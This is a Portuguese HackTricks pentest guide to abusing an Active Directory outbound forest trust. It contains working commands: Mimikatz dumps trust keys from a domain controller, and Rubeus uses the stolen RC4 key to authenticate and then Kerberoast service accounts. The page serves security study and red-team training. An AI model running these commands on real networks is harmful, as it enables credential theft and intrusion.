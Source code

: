 # External Forest Domain - One-Way (Outbound)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

Neste cenário **seu domínio** está **confiando** algumas **privilegios** a principal de **domínios diferentes**.

## Enumeração

### Confiança de Saída
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Ataque à Conta de Confiança

Uma vulnerabilidade de segurança existe quando uma relação de confiança é estabelecida entre dois domínios, identificados aqui como domínio **A** e domínio **B**, onde o domínio **B** estende sua confiança ao domínio **A**. Nesse arranjo, uma conta especial é criada no domínio **A** para o domínio **B**, que desempenha um papel crucial no processo de autenticação entre os dois domínios. Esta conta, associada ao domínio **B**, é utilizada para criptografar tickets para acessar serviços entre os domínios.

O aspecto crítico a entender aqui é que a senha e o hash dessa conta especial podem ser extraídos de um Controlador de Domínio no domínio **A** usando uma ferramenta de linha de comando. O comando para realizar essa ação é:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
Esta extração é possível porque a conta, identificada com um **$** após seu nome, está ativa e pertence ao grupo "Domain Users" do domínio **A**, herdando assim as permissões associadas a este grupo. Isso permite que indivíduos se autentiquem no domínio **A** usando as credenciais desta conta.

**Aviso:** É viável aproveitar essa situação para obter uma base no domínio **A** como um usuário, embora com permissões limitadas. No entanto, esse acesso é suficiente para realizar enumeração no domínio **A**.

Em um cenário onde `ext.local` é o domínio confiável e `root.local` é o domínio confiado, uma conta de usuário chamada `EXT$` seria criada dentro de `root.local`. Através de ferramentas específicas, é possível despejar as chaves de confiança do Kerberos, revelando as credenciais de `EXT$` em `root.local`. O comando para alcançar isso é:
```bash
lsadump::trust /patch
```
Seguindo isso, poderia-se usar a chave RC4 extraída para autenticar como `root.local\EXT$` dentro de `root.local` usando outro comando de ferramenta:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Esta etapa de autenticação abre a possibilidade de enumerar e até explorar serviços dentro de `root.local`, como realizar um ataque Kerberoast para extrair credenciais de contas de serviço usando:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Coletando a senha de confiança em texto claro

No fluxo anterior, foi utilizado o hash de confiança em vez da **senha em texto claro** (que também foi **extraída pelo mimikatz**).

A senha em texto claro pode ser obtida convertendo a saída \[ CLEAR ] do mimikatz de hexadecimal e removendo bytes nulos ‘\x00’:

![](<../../.gitbook/assets/image (938).png>)

Às vezes, ao criar um relacionamento de confiança, uma senha deve ser digitada pelo usuário para a confiança. Nesta demonstração, a chave é a senha de confiança original e, portanto, legível por humanos. À medida que a chave muda (a cada 30 dias), o texto claro não será legível por humanos, mas tecnicamente ainda utilizável.

A senha em texto claro pode ser usada para realizar autenticação regular como a conta de confiança, uma alternativa a solicitar um TGT usando a chave secreta Kerberos da conta de confiança. Aqui, consultando root.local a partir de ext.local para membros do Domain Admins:

![](<../../.gitbook/assets/image (792).png>)

## Referências

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
